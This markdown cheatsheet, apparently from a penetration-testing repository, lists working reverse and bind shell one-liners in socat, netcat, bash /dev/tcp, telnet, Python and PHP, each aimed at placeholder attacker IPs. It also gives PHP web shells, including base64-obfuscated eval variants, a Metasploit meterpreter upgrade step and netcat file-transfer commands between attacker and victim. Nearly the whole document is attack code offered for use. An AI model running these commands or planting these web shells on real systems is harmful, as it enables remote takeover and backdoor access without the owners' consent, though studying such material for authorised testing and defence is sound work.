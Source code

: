 # Shell Cheatsheet

## Reverse Shell

### Socat

Listener:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

Victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Shell

```
nc -e /bin/sh 10.0.0.1 1234
```

When `-c` works:
```
nc -c '/bin/bash -c "script /dev/null"' 127.0.0.1 1337
```

With `/dev/tcp`
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

Using FIFO (Doesn't work with upgrading?)

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Using `telnet` (When no `nc` and no `/dev/tcp` available). Listen with `nc -n -vv -l -p 2222`

```
rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe
```

### Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.170",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Bind Shell

### Socat

Listener:
```
socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
```

Victim:

```
socat FILE:`tty`,raw,echo=0 TCP:10.10.10.10:1337
```

### Bash

```
port=4444; if [$# -eq 1]; then port=$1; fi; while true; do nc -lp $port -e /bin/bash;wait; done
```

### Telnet

Lazy Bind Shell using `telnet`:

Listen with `nc -n -vv -l -p 2222` and don't forget the `&` at the end
```
while true; do sleep 5; rm /tmp/yolopipe; mknod /tmp/yolopipe p && telnet 192.168.0.151 2222 0</tmp/yolopipe| /bin/bash 1>/tmp/yolopipe; done &
```


### Python

Connect via `nc`:
```
import socket as a; s = a.socket();s.bind(('0.0.0.0',1337));s.listen(1);(r,z) = s.accept();exec(r.recv(999))
```

After connecting upgrade via:
```
import pty,os;os.dup2(r.fileno(),0);os.dup2(r.fileno(),1);os.dup2(r.fileno(),2);pty.spawn("/bin/sh");s.close()
```

### PHP

Reverse shell using a socket (cmd version)
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Reverse shell using a socket (file version)
```
<?php $sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```

## Web Shell

### PHP

Minimal webshell (`?cmd=ls`)

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

Decodes the Base64 encoded string and evaluates the decoded string "system('ls -la');" as PHP code:
```
<?php
eval(base64_decode("c3lzdGVtKCdscyAtbGEnKTsNCg=="));
?>
```

Base64 encoded cmd webshell
```
<?php eval(base64_decode("aWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllO30=")); ?>
```

Execute system command
```
<?php system(cmd);?>

<?php system("nc -e /bin/sh 10.0.0.1 1234");?>
```

## Listener

### Shell

#### General Listener

Basic Listener, useful with upgrading
```
nc -vvlp 1337
```

```
stty -echo raw; nc -lp 1337; stty sane
```

#### Listen on a specific IP
```
nc -l -p 4444 -s 127.0.0.1
```


## Upgrading

### Socat

Check section above (`Reverse Shell.Socat`) using a static binary.

### Shell

- Use bash, not zsh
- In reverse shell: Execute bash (for example using the Python method below)
- In reverse shell: `export TERM=xterm-256color`
- Switch to background with CTRL+Z
- Configure local shell: `stty raw -echo`
- Execute `fg`
- In reverse shell: `reset`

### Python
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

### MSF

```
use post/multi/manage/shell_to_meterpreter
```

## Fix Width

On attacker host:
```
stty -a
```

In (`socat`) shell:
```
stty rows 57 cols 211
```

## Transferring files (e.g. socat or tsh)

### Attacker = Listener

Sender:
```
nc -vvlp 1337 < file
```

Receiver:
```
nc <IP> <PORT> > /tmp/yolofile
```

### Victim = Listener
Receiver:
```
nc -l -p 1234 > out.file
```

Sender:
```
nc -w 3 <IP> 1234 < out.file
```

## Aliases

```
alias "l"="ls -la" && \
alias ".."="cd .."
```

## Resources

- [Pentest Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [xl7dev](http://blog.safebuff.com/2016/06/19/Reverse-shell-Cheat-Sheet/)
- [Shell upgrading](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [Web Shells Introduction](https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/)
